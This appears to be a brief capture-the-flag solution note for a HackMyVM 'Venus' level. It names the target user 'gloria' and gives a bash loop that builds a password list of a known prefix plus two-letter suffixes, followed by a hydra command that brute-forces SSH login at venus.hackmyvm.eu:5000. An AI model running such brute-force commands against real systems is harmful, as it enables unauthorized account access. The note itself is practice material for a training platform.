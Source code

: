 # Target user
gloria
# Method of solve
Create a custom password list, then bruteforce an SSH login for the gloria user
# Key commands
for i in {a..z}{a..z}; do echo "v7xUVE2e5bjUc$i"; done > passwords.txt
hydra -V -t 32 -l gloria -P passwords.txt ssh://venus.hackmyvm.eu:5000
